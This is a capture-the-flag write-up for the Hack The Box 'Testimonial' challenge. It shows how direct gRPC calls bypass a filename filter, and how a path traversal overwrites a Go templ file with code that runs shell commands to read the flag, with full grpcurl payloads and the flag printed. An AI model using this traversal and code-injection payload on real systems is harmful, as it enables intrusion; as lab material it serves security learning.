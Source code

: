 ## Title

Testimonial

## Description

As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.

## Solution

By looking at the files it seems like a go web app. It is using two different ports, **1337** and **50045**(build-docker.sh).

Besides that, it uses two packages, `github.com/cosmtrek/air@latest` and `github.com/a-h/templ/cmd/templ@latest`(Dockerfile).

The version of `go` is `1.21.1`(go.mod).

In main.go we know that the port 1337 is running a web app and on port 50045 we have a GRPC service.
GRPC is a modern RPC that holds services, in this case `RegisterRickyServiceServer` which holds functions.
Inside grpc.go we have a RPC function called `SubmitTestimonial` which submits testimonials to a directory that can be accessible using the web app called `public/testimonials`. If we are able to write a web shell maybe we can access it via testimonials.

Looking at the testimonials directory we found three .txt files:
- 1.txt: `The Phreaks' cunning strategies have been a game-changer. They're not just telecom experts; they are masterminds.`
- 2.txt: `The Revivalists' commitment to a natural way of life is inspiring. They bring a fresh perspective to The Fray.`
- 3.txt: `The Profits' focus on wealth and salvation is unmatched. They understand the value of success in The Fray.`

The function is expecting two parameters: `Customer` and `Testimonial`.
In client.go we found the filter that is used in this challenge when submitting testimonials:

```go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

In handler/home.go we found the way to send testimonials:

```go
func HandleHomeIndex(w http.ResponseWriter, r *http.Request) error {
	customer := r.URL.Query().Get("customer")
	testimonial := r.URL.Query().Get("testimonial")
	if customer != "" && testimonial != "" {
		c, err := client.GetClient()
		if err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}

		if err := c.SendTestimonial(customer, testimonial); err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}
	}
	return home.Index().Render(r.Context(), w)
}
```

In pb/ptypes_grpc.pb.go we found the actual GRPC service name:

```go
func (c *rickyServiceClient) SubmitTestimonial(ctx context.Context, in *TestimonialSubmission, opts ...grpc.CallOption) (*GenericReply, error) {
	out := new(GenericReply)
	err := c.cc.Invoke(ctx, "/RickyService/SubmitTestimonial", in, out, opts...)
	if err != nil {
		return nil, err
	}
	return out, nil
}
```

Note: We can see the same information at pb/ptypes.proto.
Before we can try to bypass the filter in order to deploy a web shell, we can try to send a request directly to the GRPC without using the web app.
An interface we can use [is](https://github.com/fullstorydev/grpcui).

```
$ ~/go/bin/grpcui -plaintext 83.136.252.194:59124 
Failed to compute set of methods to expose: server does not support the reflection API
```

```
~/go/bin/grpcui -use-reflection=false -proto=./web/testimonial/challenge/pb/ptypes.proto -plaintext 83.136.252.194:59124\
```

When submitting a file, it appears in the web app but when going to the `public/testimonials` endpoint we only have the three .txt files.
It must be saving the files at another location. I tried to save a file at another location by using the costumer name `../../../challenge/public` but can't save files.

In grpc.go:

```go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}

```

In index.templ:

```javascript
func GetTestimonials() []string {
	fsys := os.DirFS("public/testimonials")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}

```

In order to obtain RCE we overwrite the index.templ, lets test with a ls command :
(Note: we will use grpcurl)

```shell
./grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"ls\", \"/\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial
```
It worked, lets look for the flag:

```shell
./grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"cat\", \"/flagbba4cb647c.txt\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial
```

Flag: `HTB{w34kly_t35t3d_t3mplate5}`